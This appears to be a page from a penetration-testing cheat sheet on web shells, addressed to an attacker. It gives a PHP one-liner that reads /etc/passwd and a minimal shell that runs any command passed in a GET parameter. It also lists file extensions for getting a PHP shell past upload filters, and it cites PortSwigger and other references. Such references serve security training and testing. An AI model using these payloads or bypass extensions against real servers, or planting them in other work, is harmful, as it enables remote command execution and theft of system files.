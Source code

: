 ## Web shells

> A web shell is a malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests to the right endpoint.

The ideal goal is to upload a file with a random name that only you, the attacker, knows where it is and you can ask it to execute commands you pass as query or post parameters.
But you can also make more simple payloads that suit your needs.
As a basic example the following is a simple PHP web shell that retrieves contents from the <code><smart-variable variable="target-file" default-value="/etc/passwd"></smart-variable></code> file:

```php
<?php echo file_get_contents('{{ target-file /etc/passwd }}'); ?>
```


### PHP

If you can upload any file on a server using PHP try to upload a PHP shell with one of the following extensions:

```text
.php
.php2
.php3
.php4
.php5
.php6
.php7
.phps
.phps
.pht
.phtm
.phtml
.pgif
.shtml
.htaccess
.phar
.inc
.php;.txt
.phpt
.txt
.phP
.php.test
.php.trickz
```

#### Super simple shell #1

The most basic yet versatile web shell would look something like this:

```php[simpleshell.php]
<?php echo system($_GET['{{ parameter command }}']); ?>
```


[^1]: Port Swigger Web Security Academy: https://portswigger.net/web-security/file-upload
[^2]: Wikipedia - List of file signatrues: https://en.wikipedia.org/wiki/List_of_file_signatures
[^3]: Configure handlers on IIS: https://docs.microsoft.com/en-us/iis/configuration/system.webserver/handlers/#configuration-sample